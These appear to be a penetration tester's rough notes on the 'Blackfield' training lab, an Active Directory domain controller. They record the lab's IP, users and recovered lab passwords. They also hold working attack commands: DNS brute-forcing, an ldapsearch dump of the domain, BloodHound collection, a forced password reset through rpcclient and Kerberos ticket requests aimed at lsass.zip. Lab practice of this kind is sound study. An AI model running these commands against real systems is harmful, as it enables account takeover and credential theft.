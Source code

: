 # Blackfield Notes

## Data 

IP: 10.129.229.17
OS:  DC01 Windows 10.0 Build 17763 x64 
Arch:
Hostname: DC01
DNS: BLACKFIELD.local
Domain: BLACKFIELD.local
Domain SID: S-1-5-21-4194615774-2175524697-3563712290
Machine Purpose: Domain Controller 
Services: 53 dns ,88 kerberos ,135, 593 rpc,389,445,,3268,5985, smb 445 (signing:True) (SMBv1:False), 
Service Languages:
Users: dc01, audit2020,support,svc_backup,lydericlefebvre and lots of generated
Email and Username Formatting:
Credentials:
```
support : #00^BlackKnight
audit2020 : ComplexP4ssw0rd!

```


#### Mindmap-per Service

- OS detect, run generate noting for nmap - check nmap

- 53
	- no domain transfer
	- `for ns in $(cat /usr/share/seclists/Discovery/DNS/$list.txt); do host $ns.$domain.$tld; done`
	- amass - found nothing..

- 88
- 135
	- NullAuth but not very good
	- CHECK support's access
- 389
- 445
	- Guest get read for `IPC$` and `profile$`
	- forensics share - probably audit2020
	- profile seems like a rabbithole of profiles
	- support has NETLOGON and SYSVOL
	- support spider plus
	- got sysvol share - policy 
- 593ldapsearch -x -H ldap://10.129.229.17 -D 'support@BLACKFIELD.local' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=local" | tee -a support-DUMP-entire-domain.ldapsearch
- 3268
- 5985
	- 
-
-
```
ldapsearch -x -H ldap://10.129.229.17 -D 'support@BLACKFIELD.local' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=local" | tee -a support-DUMP-entire-domain.ldapsearch

python3 bloodhound.py --dns-tcp -c all -d BLACKFIELD.local -dc DC01.BLACKFIELD.local -ns 10.129.229.17 -u support -p '#00^BlackKnight'

```

- support forcepassword audit2020, but it might accomplish much, given that we cant just download lssas 
	- Probably other directories are just clues.. I just really really wanted that lsass.zip
- svc_backup is the only member of remote management
-
- Forensic SMB dump
	- Ipwn3dYourCompany 
-
-
-


#### Todo List

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
```
rpcclient -U support 10.10.10.192
> setuserinfo2 audit2020 23 'ComplexP4ssw0rd!'
```

- rescan tcp - done
- password spray - done
- profile seems like a rabbithole of profiles -check potentially

```
impacket-getTGT -dc-ip 10.129.229.17 'blackfield.local/audit2020'

smbget # use ccache file to auth in and get lsass.zip
```


- Is Ipwn3dYourCompany still enabled
- Is Ipwn3dYourCompany soft deleted?

- Is there a better way to view the firewall_rules.txt